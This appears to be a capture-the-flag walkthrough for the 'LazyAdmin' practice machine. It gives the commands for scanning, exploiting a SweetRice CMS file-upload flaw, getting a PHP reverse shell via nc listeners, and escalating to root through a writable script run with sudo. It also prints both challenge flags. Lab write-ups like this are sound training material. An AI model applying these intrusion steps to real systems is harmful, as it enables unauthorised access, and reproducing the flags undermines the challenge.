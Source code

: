 # LazyAdmin

> Easy linux machine to practice your skills

<br>

Process:
- 1) scanning 
  - port scan: `nmap -T4 <ip>`
  - aggressive scan: `nmap -T4 -A -p 22,80 <ip>`
- 2) enumerate port 80:
  - run gobuster -> found: "/content"
  - found SweetRice CMS running (1.5.0)
- 3) search for exploit
  - `searchsploit sweetrice`
  - found arbitary file upload:
    - `searchsploit -m php/webapps/40716.py`
  - need username and password 
  - gobuster "http://<ip>/content":
    - found "/inc" folder -> found mysql sql backup file 
      - found username:password = manager:<hash>
      - crack MD5 hash = manager:Password123
    - login to cms console ("http://<ip>/content/as/")
- 4) exploit:
  - create a php reverse shell 
  - use exploit to upload shell:
    - `python3 40716.py` -> "<ip>/content" -> "manager" -> "Password123" -> "shell.php
  - setup nc listener: `nc -lvnp 1234`
  - execute shell: "<ip>/content/attachment/shell.php" -- get reverse shell
    - didn't work shell not there, try different filename ("shell.php5") --- worked 
- 5) find user flag:
  - `cat /home/itguy/user.txt` -> user flag = **THM{63e5bce9271952aad1113b6f1ac28a07}**
- 6) find root flag:
  - upgrade privileges:
    - find sudo permissions: `sudo -l`
    - have /usr/bin/perl, search GTFOBins
    - get root shell with: `sudo /usr/bin/perl -e 'exec "/bin/sh";'`
    - doesn't work need sudo password 
    - other file found is "/home/itguy/backup.pl" which runs "/etc/copy.sh" which you have permission to write 
    - change this file to a php reverse shell (uploaded same as before, but connecting to different port):
      - `cp /var/www/html/content/attachment/shell2.php5 /etc/copy.sh`
    - setup nc listener on other port: `nc -lvnp 4444`
    - execute sudo commands together:
      - `sudo /usr/bin/perl /etc/copy.sh`
    - catch root reverse shell and find root flag:
      - `cat /root/root.txt` -> root flag = **THM{6637f41d0177b6f37cb20d775124699f}**
